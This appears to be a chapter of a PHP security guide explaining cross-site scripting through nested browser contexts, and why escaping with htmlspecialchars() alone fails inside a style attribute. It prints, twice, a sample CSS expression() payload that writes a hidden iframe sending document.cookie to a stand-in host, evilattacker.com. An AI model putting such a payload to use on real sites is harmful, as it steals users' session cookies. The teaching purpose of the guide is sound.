 Cross-Site Scripting And Injecting Context
==========================================

An XSS attack is successful when it can inject Context. The term "Context" relates to how browsers interpret the content of a HTML document. Browsers recognise a number of key Contexts including: HTML Body, HTML Attribute, Javascript, URI and CSS.

The goal of an attacker is to take data destined for one of these Contexts and make browser interpret it as another Context. For example, consider the following:

.. code-block:: php

    <div style="background:<?php echo $colour ?>;">

In the above, $colour is populated from a database of user preferances which influence the background colour used for a block of text. The value is injected into a CSS Context which is a child of a HTML Attribute Context, i.e. we're sticking some CSS into a style attribute. It may seem unimportant to get so hooked up on Context but consider this:

.. code-block:: php

    $colour = "expression(document.write('<iframe src="
        .= "http://evilattacker.com?cookie=' + document.cookie.escape() + "
        .= "' height=0 width=0 />'))";

    <div style="background:<?php echo $colour ?>;">

If an attacker can successfully inject that "colour", they can inject a CSS expression which will execute the contained Javascript under Internet Explorer. In other words, the attacker was able to switch out of the current CSS Context by injecting a new Javascript Context.

Now, I was very careless with the above example because I know some readers will be desperate to get to the point of using escaping. So let's do that now.

.. code-block:: php

    $colour = "expression(document.write('<iframe src="
        .= "http://evilattacker.com?cookie=' + document.cookie.escape() + "
        .= "' height=0 width=0 />'))";

    <div style="background:<?php echo htmlspecialchars($colour, ENT_QUOTES, 'UTF-8') ?>;">

If you checked this with Internet Explorer, you'd quickly realise something is seriously wrong. After using htmlspecialchars() to escape $colour, the XSS attack is still working!

This is the importance of understanding Context correctly. Each Context requires a different method of escaping because each Context has different special characters and different escaping needs. You cannot just throw htmlspecialchars() and htmlentities() at everything and pray that your web application is safe.

What went wrong in the above is that the browser will always unescape HTML Attributes before interpreting the context. We ignored the fact there were TWO Contexts to escape for. The unescaped HTML Attribute data is the exact same CSS as the unescaped example would have rendered anyway.

What we should have done was CSS escaped the $colour variable and only then HTML escaped it. This would have ensured that the $colour value was converted into a properly escaped CSS literal string by escaping the brackets, quotes, spaces, and other characters which allowed the expression() to be injected. By not recognising that our attribute encompassed two Contexts, we escaped it as if it was only one: a HTML Attribute. A common mistake to make.

The lesson here is that Context matters. In an XSS attack, the attacker will always try to jump out of the current Context into another one where Javascript can be executed. If you can identify all the Contexts in your HTML output, bearing in mind their nestable nature, then you're ten steps closer to successfully defending your web application from Cross-Site Scripting.

Let's take another quick example:

.. code-block:: html

    <a href="http://www.example.com">Example.com</a>

Omitting untrusted input for the moment, the above can be dissected as follows:

1. There is a URL Context, i.e. the value of the href attribute.
2. There is a HTML Attribute Context, i.e. it parents the URL Context.
3. There is a HTML Body Context. i.e. the text between the <a> tags.

That's three different Contexts implying that up to three different escaping strategies would be required if the data was determined by untrusted data. We'll look at escaping as a defense against XSS in far more detail in the next section.
